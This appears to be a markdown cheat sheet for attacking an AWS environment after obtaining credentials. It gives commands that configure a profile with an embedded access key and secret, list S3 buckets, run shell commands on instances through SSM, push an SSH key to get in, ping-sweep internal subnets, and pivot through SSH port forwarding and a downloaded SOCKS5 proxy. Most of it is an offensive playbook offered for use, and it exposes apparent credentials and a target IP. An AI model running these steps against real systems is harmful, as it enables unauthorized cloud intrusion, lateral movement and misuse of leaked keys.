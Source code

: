 # Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Upon adding the crednetail.next step is to enumerate
```

aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to have priviledge to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
# Upon Gaining access to Instance, Next Step is to enumerate the internal hosts and Services.
```
ifconfig or /sbin/ifconfig
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
ping6 -c4 -I eth0 ff02::1 | tee ipv6
```
# Port Forwarding if you have found any susceptible Services like Tomcat.Jboss and Weblogic
```
ssh -i private.key ubuntu@54.211.12.132 -L 8080:127.0.0.1:8080 -N -f

wget https://raw.githubusercontent.com/mfontanini/Programs-Scripts/master/socks5/socks5.cpp

The following variable should be changed
define SERVER_PORT 7777
#define USERNAME "NLK"
#define PASSWORD "123456@*&<>"

On your Attacker Machine,proxychains setting must be amend like information below

socks5 54.211.12.132 7777 NLK 123456@*&<>
proxychains firefox 127.0.0.1:8080





```
